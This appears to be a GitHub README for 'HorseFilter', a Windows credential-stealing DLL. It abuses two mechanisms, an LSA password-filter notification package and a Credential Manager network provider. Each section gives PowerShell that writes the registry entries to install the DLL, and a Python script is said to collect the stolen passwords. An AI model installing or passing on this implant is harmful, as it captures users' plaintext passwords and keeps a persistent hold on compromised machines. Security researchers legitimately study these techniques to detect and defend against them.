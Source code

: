 # HorseFilter
- i basically wanted to learn how [winfilter](https://github.com/kindtime/winfilter) works so i made this
- i recommend compiling on linux with mingw-w64
- update macros in `shared/macros.h`
- update file metadata in `shared/horsefilter.rc`
- catch creds with `horsefilter.py`



## LSA Notification Package
- also called a [password filter](https://learn.microsoft.com/en-us/windows/win32/secmgmt/password-filters), handles password change events
- used to set custom password requirements
- horsefilter approves any password (then steals it)
1. place DLL anywhere in PATH
2. append DLL name (no extension) to registry key
3. reboot
```ps1
$DLLName = "horsefilter"

$Path = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$Value = "Notification Packages"

$Current = Get-ItemProperty -Path $Path -Name $Value
$New = $Current."$Value" + $DLLName

Set-ItemProperty -Path $Path -Name $Value -Value $New
```

## Credential Manager Network Provider
- [credential manager network providers](https://learn.microsoft.com/en-us/windows/win32/secauthn/credential-manager) are soon to be deprecated
- they get notified of logon events to connect users to different networks with sso
- horsefilter steals the password then connects them to nothing
1. place DLL in a known path (e.g. system32)
2. add it to the network provider order key
3. create a network provider service key
<!-- 4. reboot -->

```ps1
$DLLName = "horsefilter"
$DLLPath = "%SystemRoot%\System32\" + $DLLName + ".dll"

$OrderPath = "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order"
$OrderValue = "ProviderOrder"

$CurrentOrder = Get-ItemProperty -Path $OrderPath -Name $OrderValue
$NewOrder = $CurrentOrder."$OrderValue" + "," + $DLLName

Set-ItemProperty -Path $OrderPath -Name $OrderValue -Value $NewOrder

$ServicePath = "HKLM:\SYSTEM\CurrentControlSet\Services\" + $DLLName
New-Item -Path $ServicePath
# New-ItemProperty -Path $ServicePath -Name "Group" -Value "NetworkProvider"

$ServicePath += "\NetworkProvider"
New-Item -Path $ServicePath
 
New-ItemProperty -Path $ServicePath -Name "Class" -Value 0x00000002 # WN_CREDENTIAL_CLASS
New-ItemProperty -Path $ServicePath -Name "Name" -Value $DLLName
New-ItemProperty -Path $ServicePath -Name "ProviderPath" -PropertyType ExpandString -Value $DLLPath
```
---
the lsa internal unicode string struct is only [sometimes](https://learn.microsoft.com/en-us/windows/win32/api/lsalookup/ns-lsalookup-lsa_unicode_string#members) null terminated